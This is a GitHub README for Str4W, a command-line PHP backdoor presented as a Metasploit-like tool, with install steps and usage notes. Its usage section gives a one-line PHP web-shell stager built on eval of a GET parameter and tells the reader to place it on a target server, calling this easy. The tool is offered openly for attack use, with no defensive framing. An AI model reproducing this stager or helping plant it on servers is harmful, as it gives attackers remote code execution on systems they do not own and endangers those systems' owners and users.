 # Str4W
> A command line PHP backdoor with the simplest stager ever. 

It's a multi functional PHP backdoor (similar to Metasplot to some extent) that uses a very small stager to make powerful things.

![](header.png)

## Installation

This application has been developed with Python 3.7.9 (recommended).
Although, it should work with previous (and future probably) versions of python (> 3.6).

Windows:
   - `pip install -r requirements.txt` to install the required dependencies.
   - `python main.py` to run the application.
   
Linux:
   - `pip3 install -r requirements.txt` to install the required dependencies.
   - `python3 main.py` to run the application.

## Usage example

The CLI is pretty straightforward. The commands are documented, so the user can get a description by using `help <command>`.  
For a complete list of commands, please use `help`.  

Although the interface is kinda user-friendly, you have to place the stager onto the target server.  
Don't worry, it is as simple as placing a PHP file onto the server.  
Just place the following code inside it: `<?php eval($_GET['c']); ?>`.  
Easy as that. 

## Release History

* 1.0
    * First release!

## Meta

Zeta314 – [@Zeta314](https://github.com/Zeta314)

Distributed under the GPL3.0 license. See ``LICENSE`` for more information.

[https://github.com/Zeta314/Str4W](https://github.com/Zeta314/)

## Contributing

1. Fork it (<https://github.com/Zeta314/Str4W/fork>)
2. Create your feature branch (`git checkout -b feature/fooBar`)
3. Commit your changes (`git commit -am 'Add some fooBar'`)
4. Push to the branch (`git push origin feature/fooBar`)
5. Create a new Pull Request
